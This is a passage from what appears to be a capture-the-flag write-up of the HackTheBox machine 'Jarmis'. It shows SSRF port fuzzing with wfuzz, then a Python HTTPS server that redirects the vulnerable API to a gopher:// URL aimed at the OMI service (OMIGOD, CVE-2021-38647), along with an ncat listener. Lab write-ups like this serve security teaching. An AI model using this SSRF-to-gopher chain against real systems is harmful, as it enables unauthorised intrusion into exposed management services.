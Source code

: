 This can be used to fuzz through all ports and filter for this value in the _endpoint_ field:
```
wfuzz -z range,1-65535 -u http://jarmis.htb/api/v1/fetch?endpoint=localhost:FUZZ --hs "null"
```

The ports 5985, 5986, 8001 behave like the other open ports, which mean that these are open on the box.

Two of these ports are likely to be [Open Management Infrastructure (OMI)](https://github.com/Microsoft/omi) developed by Microsoft and this service has a [publicly known vulnerability](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-omi) called **OMIGOD**.

### Exploit Chain

The **SSRF** vulnerability has to be used to connect to the OMI service to exploit it with the **OMIGOD** vulnerability.
The publicly known exploit can be found as [CVE-2021-38647 on GitHub](https://github.com/horizon3ai/CVE-2021-38647).

Creating an SSL certificate for our web server:
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Creating a web server _(web-server.py)_ with Python:
```python
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl

class MainHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        print("GET")
        self.send_response(301)
        self.send_header("Location", 'gopher://10.10.14.3/5985/_Test')
        self.end_headers()

httpd = HTTPServer(('0.0.0.0', 8443), MainHandler)
httpd.socket = ssl.wrap_socket(httpd.socket,
                               keyfile="key.pem",
                               certfile="cert.pem",
                               server_side=True)

httpd.serve_forever()
```

Starting **Ncat listener** with SSL that will be fetched by the API:
```
nc -lvnp 443 --ssl
```

Starting the SSL Python web server, which will take the 11th request from **JARM** and exploit the **SSRF** vulnerability to forward the connection to port 5985:
```
python3 web-server.py
```
